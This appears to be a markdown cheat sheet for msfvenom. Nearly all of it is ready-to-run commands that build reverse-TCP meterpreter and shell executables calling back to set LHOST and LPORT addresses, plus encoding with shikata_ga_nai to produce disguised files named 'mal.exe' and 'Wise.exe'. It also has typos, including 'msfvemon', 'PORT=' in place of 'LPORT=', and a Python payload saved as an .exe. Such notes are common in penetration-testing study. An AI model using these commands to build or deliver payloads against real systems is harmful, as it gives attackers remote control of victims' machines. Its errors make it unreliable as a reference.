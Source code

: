 # Msfvenom

> ## **Syntax**

    msfvenom -p [payload] LHOST=[MyIP] LPORT=[DesiredPort] -f [Format] -o [YourMalwareFile]

`Example for a Windows Machine`

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.0.1 LPORT=1234 -f exe -o MyFile.exe

`Example for a Linux Machine`

    msfvenom -p python/meterpreter/reverse_tcp LHOST=10.10.0.1 LPORT=1234 -f raw -o MyFile.exe


`Format Help`

    msfvemon --help-formats

------

> ## **Payloads**

`List of payloads`

    -l payloads

`Format`

    $ msfvenom –p [ExploitPath] LHOST=[LocalHost (if reverse conn.)] LPORT=[LocalPort] –f [FormatType]

`Example`

Reverse Meterpreter payload as an executable and redirected into a file:

    $ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.1.1.1  PORT=4444 –f exe > met.exe

Reverse TCP payload as an EXE creating the Wise.exe program

    $ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.138.131 LPORT=7777 -f exe -o Wise.exe

` Format Options (specified with –f)` 

| **Option** | **Description** |
|------------|-----------------|
|`--help-formats` | Print out a summary of the specified options |
|`exe` | Executable |
| `pl` | Perl |
| `rb` | Ruby |
| `raw` | Raw shellcode |
| `c` | C code |

---
---

> ## **Encoders**

`List of encoders`

    -l encoders

    $ msfvenom –p [Payload] -e [Encoder] -f [FormatType (exe, perl, ruby, raw, c)] -i [EncodeInterations] -o [OutputFilename]

`Example`

Encode a payload from msfpayload 5 times using shikata-ga-nai encoder and output as executable:

    $ msfvenom –p windows/meterpreter/reverse_tcp -i 5 -e x86/shikata_ga_nai -f exe -o mal.exe